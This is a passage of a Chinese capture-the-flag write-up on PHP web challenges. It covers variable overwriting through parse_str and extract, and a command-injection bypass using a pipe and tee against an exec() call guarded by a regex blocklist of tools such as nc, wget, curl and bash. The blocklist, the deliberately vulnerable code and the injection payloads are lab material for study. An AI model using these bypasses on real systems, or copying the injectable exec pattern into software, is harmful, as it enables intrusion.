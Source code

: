 > `parse_str()` —— 将字符串解析成多个变量
>
> `$_SERVER['QUERY_STRING']` —— url后的查询字符串
>
> `extract()` —— 从数组中将变量导入到当前的符号表

禁止传参key1和key2

先是`parse_str($_SERVER['QUERY_STRING'])`会把传入的字符串解析成变量

然后就利用`extract($_POST);`覆盖变量key1和key2

```
?_POST[key1]=36d&_POST[key2]=36d
```

## 136-|和tee

```php
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
```

利用管道`|`和`tee`把执行结果写入文件里查看即可

```
?c=ls /| tee a
?c=cat f149_15_h3r3 | tee b
```

## 139

```php
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
```
